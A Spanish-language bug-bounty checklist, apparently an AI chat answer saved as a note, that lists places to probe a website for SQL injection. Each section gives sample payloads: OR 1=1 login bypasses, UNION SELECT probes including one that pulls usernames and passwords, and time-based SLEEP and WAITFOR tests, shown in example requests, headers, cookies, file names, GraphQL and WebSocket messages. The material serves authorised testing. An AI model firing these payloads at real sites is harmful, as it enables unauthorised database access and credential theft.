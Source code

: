 ```yaml
---
tags:
---
```

---
# **🎯 Checklist Completa: Todos los Puntos de Entrada para SQLi en una Web (Bug Bounty)**

Para encontrar SQLi de manera eficiente en **bug bounty**, necesitas **mapear TODOS los puntos donde el sitio recibe y procesa datos**. Aquí te dejo **una lista completa** de lugares donde puedes buscar SQL Injection **hoy en día**.

---

## **🟢 1️⃣ URLs y Parámetros GET**

📌 **Qué buscar:**

- Parámetros en la URL (`id=`, `user=`, `product_id=`, `page=`, etc.)
    
- URLs "amigables" con valores (`/profile/123/`, `/home/test/`)
    
- Parámetros ocultos en redirecciones (`next=`, `return=`, etc.)
    

📌 **Ejemplo de URLs donde probar SQLi:**

```
https://target.com/profile.php?id=123
https://target.com/home/<PRUEBA AQUÍ>
https://target.com/article?id=5&lang=en
https://target.com/login.php?redirect=dashboard
```

💡 **Prueba:** `' OR 1=1 --`, `' UNION SELECT NULL, NULL --`, `'; WAITFOR DELAY '0:0:5'--` (para ver si hay retraso).

---

## **🟡 2️⃣ Formularios y Parámetros POST**

📌 **Qué buscar:**

- **Formularios de Login** (`username`, `password`)
    
- **Formularios de búsqueda** (`search`, `query`)
    
- **Formularios de contacto, registro y comentarios**
    
- **Parámetros ocultos (`hidden` fields en HTML)**
    

📌 **Ejemplo de request POST vulnerable:**

```http
POST /login.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin' OR 1=1 --&password=1234
```

💡 **Prueba:** `admin' OR 1=1 --`, `test' AND SLEEP(5) --` (para SQLi ciega).

---

## **🟠 3️⃣ APIs REST y GraphQL**

📌 **Qué buscar:**

- **Endpoints que reciben JSON o XML** (`/api/users`, `/graphql`)
    
- **Parámetros en el cuerpo de la petición**
    
- **Consultas GraphQL (query/mutation)**
    

📌 **Ejemplo de SQLi en una API REST:**

```json
{
  "id": "1 OR 1=1 --"
}
```

📌 **Ejemplo de SQLi en GraphQL:**

```graphql
{
  user(id: "1' OR '1'='1") {
    username
    email
  }
}
```

💡 **Prueba:**

- `"1' UNION SELECT username, password FROM users --"`
    
- `1) OR pg_sleep(5) --` (para bases de datos PostgreSQL).
    

---

## **🔵 4️⃣ Headers HTTP (User-Agent, Referer, Cookie)**

📌 **Qué buscar:**

- **Si el backend guarda logs en la base de datos, puede ser vulnerable.**
    
- **Algunas aplicaciones guardan cookies en bases de datos.**
    

📌 **Ejemplo de SQLi en un header (User-Agent):**

```http
User-Agent: Mozilla/5.0' OR 1=1 --
```

📌 **Ejemplo de SQLi en cookies:**

```http
Cookie: session_id=123' OR 1=1 --
```

💡 **Prueba:**

- `User-Agent: Mozilla/5.0' UNION SELECT NULL, NULL --`
    
- `Cookie: auth_token=1' OR sleep(5) --`
    

---

## **🟣 5️⃣ Carga de Archivos (Nombre del archivo en SQL)**

📌 **Qué buscar:**

- Algunos sistemas guardan **nombres de archivos subidos en la base de datos**.
    
- Si hay SQLi, podrías manipular el nombre del archivo para inyectar código.
    

📌 **Ejemplo de nombre de archivo malicioso:**

```
evil'image.jpg' OR 1=1 --
```

💡 **Prueba:**

- Sube un archivo con un nombre `' UNION SELECT NULL, NULL --.jpg`.
    
- Mira si en la respuesta HTTP aparece modificado.
    

---

## **🟤 6️⃣ Inyecciones en Logs y Registros de Auditoría**

📌 **Qué buscar:**

- Algunas aplicaciones guardan **acciones del usuario en la base de datos**.
    
- Si los logs se insertan sin sanitización, podrías hacer **SQLi almacenado**.
    

📌 **Ejemplo de ataque:**  
1️⃣ **Intentar login con un payload SQL:**

```
admin' OR 1=1 --
```

2️⃣ Si el intento de login fallido se **guarda en la base de datos**, puede ejecutar la inyección cuando un administrador vea los logs.

💡 **Prueba:**

- `test' OR sleep(5) --` en un campo de login.
    
- `User-Agent: Mozilla/5.0' OR 1=1 --` para ver si los logs son vulnerables.
    

---

## **⚫ 7️⃣ SQLi en WebSockets (Aplicaciones en Tiempo Real)**

📌 **Qué buscar:**

- Aplicaciones modernas usan **WebSockets** para chat, notificaciones, etc.
    
- Si los datos enviados por WebSockets terminan en una consulta SQL, podría haber SQLi.
    

📌 **Ejemplo de SQLi en WebSocket:**

```json
{
  "message": "hello' OR 1=1 --",
  "user_id": "1"
}
```

💡 **Prueba:**

- Si el chat devuelve respuestas inusuales, prueba `1 UNION SELECT NULL, NULL --`.
    
- Si la aplicación tiene **retrasos**, prueba `1 OR SLEEP(5) --`.
    

---

# **🎯 Conclusión: Checklist Completo para SQLi**

|Lugar a Probar|Ejemplos|
|---|---|
|✅ URLs (GET)|`?id=123`, `/profile/123/`|
|✅ Formularios (POST)|`username=admin' OR 1=1 --`|
|✅ APIs REST|`{"id": "1' OR 1=1 --"}`|
|✅ GraphQL|`{user(id: "1' OR '1'='1") {username}}`|
|✅ Headers HTTP|`User-Agent: ' OR 1=1 --`|
|✅ Cookies|`session_id=123' OR SLEEP(5) --`|
|✅ Subida de archivos|`evil'image.jpg' OR 1=1 --`|
|✅ Logs y auditoría|`Login failed for user ' OR 1=1 --`|
|✅ WebSockets|`{"message": "hello' OR 1=1 --"}`|

💡 **Si sigues esta lista en cada sitio web, no te perderás ningún punto de entrada.** 🚀🔥

Si necesitas más detalles en un punto específico, dime y lo ajustamos. ¡A romper bases de datos (legalmente)! 😈💻

